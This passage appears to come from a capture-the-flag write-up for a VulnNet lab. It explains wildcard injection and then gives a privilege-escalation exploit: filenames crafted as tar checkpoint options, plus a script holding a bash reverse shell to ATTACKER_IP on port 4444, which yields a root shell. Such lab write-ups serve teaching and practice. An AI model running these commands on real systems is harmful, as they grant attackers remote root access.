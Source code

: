 *For eg, we have a directory with two files: a.txt and b.txt.*

*If we do `rm *`, this basically becomes `rm a.txt b.txt`*

*If we now have a file named -rf, then it will be recognised as a command-line argument as the command now becomes `rm -rf a.txt b.txt`*

---

Let's carry out the exploit:

```
cd /home/server-management/Documents
touch -- --checkpoint=1
echo $'#!/bin/bash\nbash -i >& /dev/tcp/ATTACKER_IP/4444 0>&1' > shell.sh
touch -- --checkpoint-action=exec=bash\ shell.sh
```

*(The `--` is used to denote the end of options for the `touch` command. This allows us to have the `--` characters in our filename)*

This is how the directory looks like after creating the files:

![screenshot34](../assets/images/vulnnet/screenshot34.png)

With that done, we just have to wait for 2 minutes to pass before a root shell was opened:

![screenshot35](../assets/images/vulnnet/screenshot35.png)

We can then obtain the **root flag** from /root:

![screenshot36](../assets/images/vulnnet/screenshot36.png)
